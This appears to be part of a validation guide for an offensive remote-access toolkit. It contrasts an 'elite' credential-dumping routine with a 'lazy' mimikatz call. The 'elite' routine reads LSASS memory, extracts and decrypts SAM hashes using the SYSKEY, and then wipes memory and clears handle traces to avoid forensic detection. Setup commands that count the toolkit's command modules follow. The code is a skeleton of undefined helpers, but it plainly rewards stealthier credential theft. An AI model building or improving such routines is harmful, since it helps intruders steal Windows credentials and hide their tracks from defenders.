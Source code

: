 ### ✅ ELITE Implementation Example:
```python
def hashdump():
    # Direct LSASS manipulation
    lsass_handle = OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, False, lsass_pid)
    
    # Search for credentials in memory
    for region in enumerate_memory_regions(lsass_handle):
        memory = ReadProcessMemory(lsass_handle, region.BaseAddress, region.RegionSize)
        
        # Find and decrypt credentials
        creds = extract_credentials_from_memory(memory)
        
    # Extract SAM from registry
    sam_key = RegOpenKeyEx(HKEY_LOCAL_MACHINE, "SAM\\SAM")
    sam_data = RegQueryValueEx(sam_key)
    
    # Get SYSKEY for decryption
    syskey = extract_syskey()
    
    # Decrypt SAM database
    hashes = decrypt_sam(sam_data, syskey)
    
    # Clean artifacts
    secure_wipe_memory()
    clear_handle_traces()
    
    return hashes
```

### ❌ LAZY Implementation Example:
```python
def hashdump():
    # This would FAIL validation
    return subprocess.run("mimikatz.exe privilege::debug sekurlsa::logonpasswords")
```

---

## 📊 VALIDATION EXECUTION STEPS

### 1. Initial Setup
```bash
# Check implementation structure
ls -la /workspace/Core/elite_commands/ | head -20
ls -la /workspace/templates/
ls -la /workspace/static/js/

# Count implemented commands
ls /workspace/Core/elite_commands/elite_*.py 2>/dev/null | wc -l
# Should be ~63 files
```

